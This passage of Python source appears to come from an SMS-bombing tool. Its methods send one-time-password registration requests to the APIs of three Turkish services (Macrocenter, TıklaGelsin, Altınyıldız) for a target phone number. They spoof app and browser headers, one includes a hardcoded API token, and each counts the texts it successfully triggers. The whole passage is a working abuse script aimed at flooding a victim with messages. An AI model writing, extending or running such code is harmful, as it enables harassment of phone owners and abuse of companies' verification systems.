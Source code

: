 
    #macrocenter.com.tr
    def Macro(self):
        try:
            url = "https://www.macrocenter.com.tr:443/rest/users/register/otp?reid=31"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "application/json", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://www.macrocenter.com.tr/kayit", "Content-Type": "application/json", "X-Forwarded-Rest": "true", "X-Pwa": "true", "X-Device-Pwa": "true", "Origin": "https://www.macrocenter.com.tr", "Dnt": "1", "Sec-Gpc": "1", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "Te": "trailers"}
            json={"email": self.mail, "phoneNumber": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["successful"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> macrocenter.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> macrocenter.com.tr")


    #tiklagelsin.com
    def TiklaGelsin(self):
        try:
            url = "https://svc.apps.tiklagelsin.com:443/user/graphql"
            headers = {"Content-Type": "application/json", "X-Merchant-Type": "0", "Accept": "*/*", "Appversion": "2.4.1", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate", "X-No-Auth": "true", "User-Agent": "TiklaGelsin/809 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Device-Type": "2"}
            json={"operationName": "GENERATE_OTP", "query": "mutation GENERATE_OTP($phone: String, $challenge: String, $deviceUniqueId: String) {\n  generateOtp(phone: $phone, challenge: $challenge, deviceUniqueId: $deviceUniqueId)\n}\n", "variables": {"challenge": "3d6f9ff9-86ce-4bf3-8ba9-4a85ca975e68", "deviceUniqueId": "720932D5-47BD-46CD-A4B8-086EC49F81AB", "phone": f"+90{self.phone}"}}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["data"]["generateOtp"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> svc.apps.tiklagelsin.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> svc.apps.tiklagelsin.com")
    

    #ayyildiz.com.tr
    def Ayyildiz(self):
        try:
            url = f"https://api.altinyildizclassics.com:443/mobileapi2/autapi/CreateSmsOtpForRegister?gsm={self.phone}"
            headers = {"Accept": "*/*", "Token": "MXZ5NTJ82WXBUJB7KBP10AGR3AF6S4GB95VZDU4G44JFEIN3WISAC2KLRIBNONQ7QVCZXM3ZHI661AMVXLKJLF9HUKI5SQ2ROMZS", "Devicetype": "mobileapp", "Accept-Encoding": "gzip, deflate", "User-Agent": "altinyildiz/2.7 (com.brmagazacilik.altinyildiz; build:2; iOS 15.7.7) Alamofire/2.7", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9"}
            r = requests.post(url, headers=headers, timeout=6)
            if r.json()["Success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.altinyildizclassics.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.altinyildizclassics.com")
